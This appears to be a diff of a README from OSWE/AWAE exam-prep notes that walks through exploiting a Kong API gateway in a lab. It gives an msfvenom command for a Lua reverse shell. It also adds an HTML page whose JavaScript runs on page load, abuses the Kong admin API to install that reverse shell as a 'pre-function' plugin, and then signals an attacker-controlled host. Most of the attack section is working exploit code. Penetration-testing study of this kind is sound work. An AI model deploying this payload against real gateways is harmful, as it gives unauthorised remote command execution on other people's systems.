

Before and after one commit to m0hammad-yaser/OSWE-AWAE-Notes, a Markdown page: apigateway/README.md, the part around the change. Shown: that part at 87% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/apigateway/README.md
+++ b/apigateway/README.md
@@ -709,7 +709,7 @@ Since the **`pre-function` plugin is enabled**, let's try to exploit that. The p
 ```bash
 msfvenom -p cmd/unix/reverse_lua lhost=192.168.45.203 lport=1337 -f raw -o shell.lua
 ```
-Our `shell.lua` payload
+Our `shell.lua` reverse shell payload
 ```bash
 ┌──(kali㉿kali)-[~]
 └─$ cat shell.lua
@@ -717,3 +717,50 @@ lua -e "local s=require('socket');local t=assert(s.tcp());t:connect('192.168.45.
 ┌──(kali㉿kali)-[~]
 └─$
 ```
+Since we will be uploading a Lua file, we won't need `"lua -e"` in the final version of the payload.
+
+According to the Kong documentation, we have to add a plugin to a Service. We could add the plugin to an existing Service, but let's limit the exposure of it by creating a new Service. A Service needs a Route for us to call it. Let's create a new HTML page with a JavaScript function that creates a Service, adds a Route to the Service, then adds our Lua code as a `"pre-function"` plugin to the Service.
+
+The code is organized into three sections for clarity and easy updates. On page load, `createService()` sends a `POST` request to create a `"supersecret"` service, then calls `createRoute()` to add the `/supersecret` route. Next, `createPlugin()` adds a Lua payload as a plugin. Finally, the script sends a `GET` request to our Kali host.
+
+```html
+<html>
+<head>
+<script>
+
+function createService() {
+    fetch("http://172.16.16.2:8001/services", {
+      method: "post",
+      headers: { "Content-Type": "application/json" },
+      body: JSON.stringify({"name":"supersecret", "url": "http://127.0.0.1/"})
+    }).then(function (route) {
+      createRoute();
+    });
+}
+
+function createRoute() {
+    fetch("http://172.16.16.2:8001/services/supersecret/routes", {
+      method: "post",
+      headers: { "Content-Type": "application/json" },
+      body: JSON.stringify({"paths": ["/supersecret"]})
+    }).then(function (plugin) {
+      createPlugin();
+    });
+}
+
+function createPlugin() {
+    fetch("http://172.16.16.2:8001/services/supersecret/plugins", {
+      method: "post",
+      headers: { "Content-Type": "application/json" },
+      body: JSON.stringify({"name":"pre-function", "config" :{ "access" :["local s=require('socket');local t=assert(s.tcp());t:connect('192.168.45.203',1337);while true do local r,x=t:receive();local f=assert(io.popen(r,'r'));local b=assert(f:read('*a'));t:send(b);end;f:close();t:close();"]}})
+    }).then(function (callback) {
+      fetch("http://192.168.45.203/callback?setupComplete");
+    });
+}
+</script>
+</head>
+<body onload='createService()'>
+<div></div>
+</body>
+</html>
+```
````
